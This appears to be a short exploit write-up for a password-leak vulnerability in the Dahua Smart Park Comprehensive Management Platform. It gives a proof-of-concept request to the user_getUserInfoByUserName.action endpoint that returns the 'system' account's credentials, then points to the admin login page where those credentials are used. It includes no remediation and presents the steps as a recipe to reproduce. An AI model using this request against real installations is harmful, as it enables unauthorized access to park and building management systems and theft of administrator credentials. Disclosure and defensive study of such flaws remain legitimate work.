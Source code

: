 # Dahua Smart Park Comprehensive Management Platform user_getUserInfoByUserName.action Account password leakage vulnerability

## Vulnerability Description

Dahua Smart Park Comprehensive Management Platform user_getUserInfoByUserName.action has an API interface, resulting in a leak of the management park account password

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Smart Park Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230814133226060.png)



Request a POC

```javascript
/admin/user_getUserInfoByUserName.action?userName=system
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645603053384-cfa58ef1-09bd-41bf-ae36-aac6e71aa639.png)

Access the address after obtaining

```javascript
/admin/login_login.action
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647425652303-43761555-6005-4458-96a7-d7990bcaca9b.png)